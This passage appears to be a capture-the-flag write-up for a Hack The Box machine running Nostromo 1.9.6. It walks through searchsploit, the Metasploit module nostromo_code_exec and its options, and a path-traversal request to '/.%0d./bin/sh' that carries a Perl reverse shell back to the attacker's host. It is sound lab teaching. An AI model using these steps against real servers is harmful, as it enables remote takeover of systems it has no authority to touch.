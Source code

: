 Again the results of this aren't hugely interesting, it seems that this portfolio website is the only site being hosted.

Finally let's check out Nostromo v1.9.6, I've never actually heard of this web server before, maybe there is a reason for that...
Run `searchsploit nostromo`. This command searches the https://exploit-db.com database for any known vulnerabilities.

Now that is more interesting, there is a remote code execution exploit for Nostromo v1.9.6, the exact version that this box is running.
The exploit script is also written in Ruby and so is likely written for Metasploit.

### Exploitation
Lets open up Metasploit and see if we can use this remote code execution exploit we found.
Run `msfconsole`

We can then search for Nostromo exploits.
Run `search nostromo`.

It looks like the exploit is in Metasploit, let's select it.
Run `use exploit/multi/http/nostromo_code_exec`.

Now it's time to set the options.
Run `show options`

Looks like all we need to set is the RHOSTS (remote hosts) aka the box(s) we are attacking, and the LHOST (listening host) aka our machine.
Run `set RHOSTS 10.10.10.156` and `set LHOST <YOUR_IP>`. Note: You can enter your IP address or you can enter your HTB VPN network interface name e.g. `set LHOST tun0`

The payload, (the remote code), that we will be executing on the victims machine seems to be a Perl script that will give us a reverse shell. Let's leave it as the default for now, we can always change it if the machine doesn't have Perl installed.

Let's try it out.
Run `exploit`

Boom. We should now have a reverse meterpreter shell on the machine. Run `shell` to drop us into `/bin/sh` shell.

But what happened? First the exploit sent a GET request to `/` in order to look at the Server response header to determine if the exploit is compatible.
The Server header contains Nostromo 1.9.6 and so the exploit continues. The exploit then performs a POST request to `/.%0d./.%0d./.%0d./.%0d./bin/sh` with the request body being the Perl payload to spawn a reverse shell. What is that path? If we remove the `%0d`, it looks like this `/../../../../bin/sh`, that looks a relative path to to `/bin/sh`, and that's exactly what it is! We are performing a path traversal attack.

A path traversal attack is a type of attack commonly performed against web servers. Web servers are configured to serve content, usually web pages, in a configured directory to anyone who visits the server. Web server software has to be very careful with this feature though as if a malicious user is able to escape outside of the configured directory, they would have access to other sensitive files on the server! This exactly what we are doing, we send a HTTP message that escapes outside of the configured directory to access to `/bin/sh` file which then executes our Perl reverse shell code that we placed in the body of our HTTP message.
